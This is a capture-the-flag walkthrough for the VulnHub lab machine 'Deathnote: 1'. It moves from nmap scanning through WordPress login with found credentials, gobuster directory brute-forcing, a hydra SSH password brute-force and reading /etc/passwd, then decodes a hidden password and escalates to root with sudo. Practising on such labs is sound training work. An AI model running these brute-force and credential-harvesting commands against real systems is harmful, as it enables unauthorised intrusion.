::::::::::::::::::::::::::::::::::::: page
# Deathnote: 1 {#deathnote-1 .title}

\

## 

## Deathnote: 1

- **[Deathnote: 1]{style="color:#663e0e;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/deathnote-1,739/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3584e4;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.238
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.238
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.238 
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.238
:::



1.  [Web Enumeration]{style="color:#3584e4;"} :

- Entry in host file :

::: codebox
    nano /etc/hosts
:::



- Visit the endpoints : <http://deathnote.vuln/wordpress/>
  <http://deathnote.vuln/robots.txt>
  <http://deathnote.vuln/wordpress/wp-login.php>

<!-- -->

- Go to /wordpress endpoint : <http://deathnote.vuln/wordpress/>



- Clue found :

::: codebox
    kira
    iamjustic3
:::

- Now try to login wordpress :

::: codebox
    Username : kira
    Password : iamjustic3
:::

- <http://deathnote.vuln/wordpress/wp-login.php>



- Successfully login the wordpress :
  <http://deathnote.vuln/wordpress/wp-admin/>



- Now brute-force the directory and find the endpoints :

::: codebox
    gobuster dir -u http://deathnote.vuln/wordpress/ -w /usr/share/wordlists/dirb/common.txt -x txt -t 50
:::



- Again brute-force the /wp-content to find the endpoints :

::: codebox
    gobuster dir -u http://deathnote.vuln/wordpress/wp-content -w /usr/share/wordlists/dirb/common.txt -x txt -t 50
:::



- Visit the /uploads endpoints :
  <http://deathnote.vuln/wordpress/wp-content/uploads/>



- Visit the folder and subfolder :
  <http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/>



- Download the both files :

::: codebox
    wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
:::

- 

::: codebox
    wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
:::



1.  [SSH Access]{style="color:#3584e4;"} :

- Run the ssh brute force command :

::: codebox
    hydra -L user.txt -P notes.txt deathnote.vuln ssh
:::



- Found login username and password :

::: codebox
    Username : l
    Password : death4me
:::

- SSH login :

::: codebox
    ssh l@deathnote.vuln
:::



- Check the file list :

::: codebox
    ls -lh
:::

- Read the file :

::: codebox
    cat user.txt
:::



- Decode the value in brainfuck :
  <https://www.dcode.fr/brainfuck-language>



- Decode value :

::: codebox
    i think u got the shell , but you wont be able to kill me -kira
:::

1.  [Privilege Escalation]{style="color:#3584e4;"} :

- Read the /etc/passwd file :

::: codebox
    cat /etc/passwd
:::



- One more normal user found :

::: codebox
    Username : kira
:::

- Navigate the directory :

::: codebox
    cd /opt/L
:::

- Check the list and again navigate the directory :

::: codebox
    cd fake-notebook-rule/
:::

- Check the list :

::: codebox
    ls -lh
:::

- Found the 2 files :



- Read the both files :

::: codebox
    cat case.wav
:::

- 

::: codebox
    cat hint
:::



- In case.wav file we found the hex value :

::: codebox
    63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
:::

- Decode the hex value :

::: codebox
    echo "6347467a6333646b49446f6761326c7959576c7a5a585a706243413d" | xxd -r -p
:::



- Now decode the base64 value :

::: codebox
    echo "cGFzc3dkIDoga2lyYWlzZXZpbCA=" | base64 -d
:::



- Found the password :

::: codebox
    passwd : kiraisevil
:::

- Now switch the other normal user :

::: codebox
    su kira 
:::



- Check sudo Privileges :

::: codebox
    sudo -l
:::

- Now switch the sudo user :

::: codebox
    sudo su
:::

- Check the file list :

::: codebox
    ls -lh
:::



- Read the root.txt file :

::: codebox
    cat root.txt
:::

- Found the root flag :


:::::::::::::::::::::::::::::::::::::
